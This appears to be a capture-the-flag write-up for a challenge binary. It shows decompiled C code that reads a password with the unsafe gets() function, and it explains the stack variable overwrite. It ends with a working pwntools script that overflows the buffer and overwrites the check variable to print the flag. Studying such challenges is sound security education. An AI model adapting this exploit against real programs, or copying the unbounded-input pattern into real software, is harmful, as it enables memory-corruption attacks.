

# Gets you later!




## Variable overwrite - Buffer overflow

Here we start off with a binary that prompts us for a password as input and seems to do some checks to see if we entered the correct password. After decompiling the binary and looking at the main function we would see that the program checks to see if a variable is equal to the value `0x1337` if true it proceeds to open the flag.txt file and print out the contents of the file. 

## Analysis

After throwing the binary into *IDA Pro* and looking at the decompiled pseudo-code we should have something similar looking to this

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[28]; // [rsp+0h] [rbp-20h] BYREF
  int v5; // [rsp+1Ch] [rbp-4h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  v5 = 0;
  printf("Enter the password! ");
  gets(v4);
  if ( v5 == 0x1337 )
    return system("cat flag.txt");
  printf("Wrong password %s!\n", v4);
  return 0;
}

```

Here we quickly see that the program is checking whether the variable `v5` is equal to the hexadecimal value `0x1337`. Looking a bit closer we come across an issue, the variable which is being used to check our value is set to zero `v5 = 0;` but we also see that our input is passed to a dangerous function called `gets()` right before the comparison. With this information we can quickly come up with an attack strategy.

1. overflow the buffer
2. overwrite the variable with the correct value - 0x1337


Because we know that the buffer is only `28` bytes and the next instruction compares the contents of the `v5` variable to `0x1337` which dereferences `rbp+0x4` to get to the contents of the variable, we can fill the buffer with 28 bytes of junk and then write our desired value to the variable `v5`

```python
#!/usr/bin/python3

from pwn import *
#context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'

if args.REMOTE:
    p = remote('ggc.tf', 31000)
else:
    p = process('./gets_you_later')

buffer = b"\x90" * 28
overwrite = p64(0x1337)
payload = flat(buffer, overwrite)
p.sendline(payload)
log.success(f"FLAG: {p.recvline().strip().split()[-1].decode()}")
```
